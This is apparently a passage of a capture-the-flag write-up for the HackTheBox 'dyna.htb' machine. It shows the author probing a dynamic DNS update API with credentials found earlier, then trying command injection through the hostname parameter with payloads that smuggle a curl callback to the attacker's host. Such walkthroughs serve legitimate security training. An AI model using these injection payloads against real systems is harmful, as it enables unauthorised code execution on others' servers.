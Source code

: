 <figure><img src="../../../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

Googling `/nic/update` reveals that this is actually an API that we can access:

{% embed url="https://help.dyn.com/remote-access-api/perform-update/" %}

This requires credentials, which we had found earlier, so let's try to use this API.&#x20;

```
$ curl http://dynadns:sndanyd@dyna.htb/nic/update?hostname=10.10.14.13
911 [wrngdom: 10.14.13]
```

Since this is taking our input and sending it somewhere, I tried some basic RCE injection.&#x20;

```
$ curl -G --data-urlencode 'hostname=10.10.14.13; curl 10.10.14.13/rce' http://dynadns:sndanyd@dyna.htb/nic/update
911 [wrngdom: 10.14.13; curl 10.10.14.13/rce]

$ curl -G --data-urlencode 'hostname=$(curl 10.10.14.13/rce)' http://dynadns:sndanyd@dyna.htb/nic/update 
911 [wrngdom: 10.14.13/rce)]
```
